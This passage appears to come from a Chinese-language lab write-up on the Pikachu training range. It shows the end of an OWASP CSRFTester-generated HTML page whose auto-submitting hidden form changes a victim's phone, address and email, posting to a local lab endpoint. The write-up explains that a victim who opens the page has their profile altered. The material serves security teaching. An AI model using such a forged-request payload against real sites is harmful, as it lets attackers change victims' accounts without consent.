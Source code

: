 ```html
    
    for(i=0; i<count; i++)
    {
        document.forms[i].submit();
        
        pausecomp(pauses[i]);
    }
}
    
</script>
<H2>OWASP CRSFTester Demonstration</H2>
<form method="POST" name="form0" action="http://127.0.0.1:80/pikachu/vul/csrf/csrfpost/csrf_post_edit.php">
<input type="hidden" name="sex" value="girl"/>
<input type="hidden" name="phonenum" value="999999999"/>
<input type="hidden" name="add" value="chain"/>
<input type="hidden" name="email" value="hacker@qq.com"/>
<input type="submit" name="submit" value="submit"/>
</form>

</body>
</html>
```

<br>

在浏览器打开生成的恶意网页, 当用户点击submit按钮后, 用户的个人信息就会被修改

![动画](pikachu靶场/动画-16695958696371.gif)	
